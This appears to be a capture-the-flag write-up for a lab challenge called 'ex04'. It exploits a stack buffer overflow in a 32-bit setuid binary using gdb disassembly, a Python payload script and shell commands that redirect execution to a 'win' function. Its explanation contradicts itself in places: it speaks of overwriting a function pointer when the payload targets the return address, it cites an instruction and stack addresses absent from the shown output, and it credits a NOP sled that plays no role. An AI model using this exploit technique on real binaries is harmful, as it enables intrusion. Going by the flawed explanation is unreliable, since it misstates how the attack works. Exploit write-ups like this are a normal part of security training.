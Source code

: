 # ex04

### Objective
The goal of this challenge is to change the code flow of the binary and see the message "code flow successfully changed".

### Steps Taken

1. **Initial Analysis**:
    - First, we used `file` to determine the type of the binary and `strings` to identify useful strings within the binary.

    ```sh
    file bin
    strings bin
    ```

    **Output of `file bin`**:
    ```
    bin: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, BuildID[sha1]=7ae0e77eaa3013bd65288c9201af0a731611fd8f, not stripped
    ```

    **Output of `strings bin`**:
    ```
    /lib/ld-linux.so.2
    __gmon_start__
    libc.so.6
    _IO_stdin_used
    gets
    puts
    __libc_start_main
    GLIBC_2.0
    PTRh 
    [^_]
    code flow successfully changed
    ```

2. **Disassembly**:
    - We used `gdb` to disassemble the binary and identify the `gets` function call, which is used to read input into a buffer, and a function pointer that is later called.

    ```sh
    gdb bin
    (gdb) break main
    (gdb) run
    (gdb) disassemble main
    ```

    **Disassembly of `main`**:
    ```assembly
    Dump of assembler code for function main:
       0x08048408 <+0>:     push   %ebp
       0x08048409 <+1>:     mov    %esp,%ebp
       0x0804840b <+3>:     and    $0xfffffff0,%esp
       0x0804840e <+6>:     sub    $0x50,%esp
       0x08048411 <+9>:     int3   
       0x08048412 <+10>:    inc    %esp
       0x08048413 <+11>:    and    $0x10,%al
       0x08048415 <+13>:    mov    %eax,(%esp)
       0x08048418 <+16>:    call   0x804830c <gets@plt>
       0x0804841d <+21>:    leave  
       0x0804841e <+22>:    ret    
    End of assembler dump.
    ```

3. **Identify the Target Function**:
    - We identified a `win` function in the binary that prints the success message "code flow successfully changed".

    ```sh
    (gdb) info functions
    (gdb) disassemble win
    ```

    **Disassembly of `win`**:
    ```assembly
    Dump of assembler code for function win:
       0x080483f4 <+0>:     push   %ebp
       0x080483f5 <+1>:     mov    %esp,%ebp
       0x080483f7 <+3>:     sub    $0x18,%esp
       0x080483fa <+6>:     movl   $0x80484e0,(%esp)
       0x08048401 <+13>:    call   0x804832c <puts@plt>
       0x08048406 <+18>:    leave  
       0x08048407 <+19>:    ret    
    End of assembler dump.
    ```

    - The address of the `win` function is `0x080483f4`.

4. **Determine Buffer Size and Offset**:
    - The buffer starts at `ESP + 16` (from `lea 0x10(%esp), %eax`).
    - The offset to reach the return address: `0xbfcd0e1c - (0xbfcd0dc0 + 16) = 76 bytes`.

5. **Craft the Payload**:
    - We created a Python script to generate the payload that overflows the buffer and modifies the function pointer to point to the `win` function.

    ```python
    import struct, base64

    buffer_size = 76  # Updated buffer size
    nop_sled = b"\x90" * 16
    target_address = 0x080483f4  # Address of the win function

    payload = nop_sled + b"A" * (buffer_size - len(nop_sled)) + struct.pack("<I", target_address)
    encoded_payload = base64.b64encode(payload).decode("ascii")
    print(encoded_payload)
    ```

6. **Execute the Binary with the Payload**:
    - We used the following commands to set the payload as an environment variable and run the binary.

    ```sh
    payload=$(python -c 'import struct, base64; buffer_size = 76; nop_sled = b"\x90" * 16; target_address = 0x080483f4; payload = nop_sled + b"A" * (buffer_size - len(nop_sled)) + struct.pack("<I", target_address); encoded_payload = base64.b64encode(payload).decode("ascii"); print(encoded_payload)')
    export PAYLOAD=$(echo $payload | base64 --decode)
    echo -e $PAYLOAD | ./bin
    ```

### Difficulties Encountered

- **Initial Payload Issues**:
    - Initially, the payload caused an "Illegal instruction" error. This was resolved by ensuring the payload length and structure were correct.

- **Buffer Size Calculation**:
    - Determining the correct buffer size and offset to overwrite the return address required careful inspection of the stack and memory layout using GDB.

- **NOP Sled Usage**:
    - Using a NOP sled helped ensure that the execution flow correctly reached the target function even if the exact address wasn't initially accurate.

### Output
- The output showed the success message, indicating that we successfully exploited the binary:
    ```
    code flow successfully changed
    Segmentation fault
    ```

### Tools Used
- `file`
- `strings`
- `gdb`
- Python

### Educational Purpose
These methods and tools are used strictly for educational purposes to understand and protect against similar vulnerabilities. 

### Script
Include the Python script used to generate the payload:

```python
import struct, base64

buffer_size = 76  # Updated buffer size
nop_sled = b"\x90" * 16
target_address = 0x080483f4  # Address of the win function

payload = nop_sled + b"A" * (buffer_size - len(nop_sled)) + struct.pack("<I", target_address)
encoded_payload = base64.b64encode(payload).decode('ascii')
print(encoded_payload)
```